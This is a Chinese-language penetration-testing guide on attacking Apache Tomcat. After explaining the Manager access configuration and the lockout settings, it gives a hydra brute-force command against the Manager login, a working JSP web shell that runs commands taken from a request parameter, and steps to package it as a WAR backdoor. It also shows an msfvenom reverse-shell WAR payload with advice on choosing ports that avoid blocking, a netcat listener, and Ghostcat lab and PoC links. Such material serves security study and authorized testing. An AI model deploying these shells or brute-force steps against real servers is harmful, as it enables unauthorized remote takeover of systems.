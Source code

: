 # Apache Tomcat

Apache Tomcat 是由 Apache 软件基金会（ASF）开发和维护的开源 Java Servlet 容器与 Web 服务器。它实现了 Java EE（现 Jakarta EE）中的 Servlet、JavaServer Pages (JSP) 及相关规范，为 Java Web 应用提供运行环境。

Apache Tomcat 作为独立 Web 服务器或与 Apache HTTP Server、Nginx 协同工作，默认端口 8080，常见错误页面如下：

![Tomcat错误页面](../images/tomcat-error.png)

## Apache Tomcat Manager

Apache Tomcat Manager 是 Tomcat 服务器官方自带的一个 Web 管理应用，通常以 manager 名称部署。它为系统管理员、开发者提供了基于浏览器的界面以及 REST API，方便远程管理和监控 Tomcat 上运行的 Web 应用。

从 Apache Tomcat 7.0 版本开始，Manager Web 应用默认只允许从本地（localhost）访问。这一限制主要通过 RemoteAddrValve 组件在 Manager 应用的配置文件中实现：

默认配置文件：`/usr/local/tomcat/webapps/manager/META-INF/context.xml`

```xml
<Context antiResourceLocking="false" privileged="true" >
  <Valve className="org.apache.catalina.valves.RemoteAddrValve"
         allow="127\.\d+\.\d+\.\d+|::1|0:0:0:0:0:0:0:1" />
  <Manager sessionAttributeValueClassNameFilter="java\.lang\.(?:Boolean|Integer|Long|Number|String)|org\.apache\.catalina\.filters\.CsrfPreventionFilter\$LruCache(?:\$1)?|java\.util\.(?:Linked)?HashMap"/>
</Context>
```

该配置的 `allow` 属性只允许本地地址（包括 IPv4 的 127.0.0.1 和 IPv6 的 ::1）访问 Manager 应用。

若需要允许其他主机访问 Manager，应根据实际需求调整 allow 属性。例如，放开所有 IPv4 地址的访问权限，可以将配置修改为：

```xml
<?xml version="1.0" encoding="UTF-8"?>

<Context antiResourceLocking="false" privileged="true" >
  <Valve className="org.apache.catalina.valves.RemoteAddrValve"
         allow="\d+\.\d+\.\d+\.\d+" />
</Context>
```

上述配置中的正则表达式 `\d+\.\d+\.\d+\.\d+` 允许任意 IPv4 地址访问 Manager 应用。

在 `\usr\local\tomcat\conf\server.xml` 配置文件中，Tomcat 提供了针对暴力破解口令（Brute-force Attack）行为的防护机制。通过设置相关参数，可以有效降低账户被暴力尝试密码的风险，具体参数如下：

| 配置项              | 默认值          | 说明                     |  
|---------------------|----------------|--------------------------|  
| `lockOutTime`       | 600 秒（10 分钟） | 账户锁定时间             |  
| `failureCount`      | 5              | 连续认证失败次数         |  
| `failureWindow`     | 300 秒（5 分钟）  | 计算失败次数的时间窗口   |  

同一用户在 `failureWindow` 秒内，认证失败次数达到 `failureCount`，账户将被锁定 `lockOutTime` 秒。

- [fscan](https://github.com/shadow1ng/fscan)

```bash
./fscan -h <ip>
```

![fscan-tomcat](../images/fscan-tomcat.png)

<https://github.com/shadow1ng/fscan/blob/main/WebScan/pocs/tomcat-manager-weak.yml>

- hydra

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -P /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt http-get://<ip>/manager/html
```

![hydra-tomcat](../images/hydra-tomcat.png)

- 使用 Burp Suite 破解

### 上传 WAR 后门

```jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

```bash
mkdir webshell
cp index.jsp webshell
cd webshell
jar -cvf ../webshell.war *
```

- 使用 msfvenom，反弹 shell

```bash
msfvenom -p java/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war -o shell.war
```

> 在 MSF 中，默认的反弹（reverse）端口通常是 4444。许多 ISP（互联网服务提供商）会主动屏蔽常见渗透测试端口（如 `4444`），导致反弹连接失败。在实践中，需要注意更换为常用端口以降低被屏蔽或识别的概率，如`80`、`443`。<https://docs.ucloud.cn/unet/faq/firewall>

在公网机器上进行监听：

```bash
nc -lvnp <port>
```

<https://tomcat.apache.org/tomcat-10.0-doc/appdev/sample/>

## Ghostcat 高危文件读取/包含漏洞（CVE-2020-1938）

Ghostcat(幽灵猫) 是由长亭科技安全研究员发现的存在于 Tomcat 中的安全漏洞，由于 Tomcat AJP 协议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可以读取或包含 Tomcat 上所有 webapp 目录下的任意文件，例如可以读取 webapp 配置文件或源代码。此外在目标应用有文件上传功能的情况下，配合文件包含的利用还可以达到远程代码执行的危害。

```bash
cd vulhub/tomcat/CVE-2020-1938
docker compose up
```

<https://mp.weixin.qq.com/s/D1hiKJpah3NhEBLwtTodsg>
<https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi>

## CVE-2025-24813

<https://github.com/absholi7ly/POC-CVE-2025-24813>

## 参考资料

<https://github.com/p0dalirius/ApacheTomcatScanner>

<https://cloud.tencent.com/developer/article/1944136>

<https://medium.verylazytech.com/ethical-hacking-guide-penetration-testing-apache-tomcat-2025-edition-01dc367f070c>
